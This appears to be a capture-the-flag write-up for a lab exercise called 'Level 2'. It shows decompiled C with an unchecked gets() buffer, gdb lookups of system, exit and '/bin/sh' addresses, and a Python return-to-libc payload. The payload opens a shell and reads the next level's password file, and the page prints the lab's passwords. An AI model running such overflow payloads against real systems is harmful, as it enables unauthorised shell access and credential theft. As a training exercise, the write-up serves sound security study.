 # Level 2
*password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77*

## Analyze
```
$ scp -P 4242 level2@192.168.56.108:level2 binary/
```

```
void main(void)

{
  p();
  return;
}
```

```
void p(void)
{
  uint unaff_retaddr;
  undefined local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```

## Buffer overflow
- get some addresses
```
(gdb) info proc map
...
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
```

```
(gdb) info funct system
...
0xb7e6b060  system
...
(gdb) info funct exit
...
0x080483d0  _exit
...
```
p() return address : 0x0804853e\
`/bin/sh` address : 0xb7f8cc58\
`system` address : 0xb7e6b060\
`exit` address : 0x080483d0

```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7"' > /tmp/level2
$ cat /tmp/level2 - | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
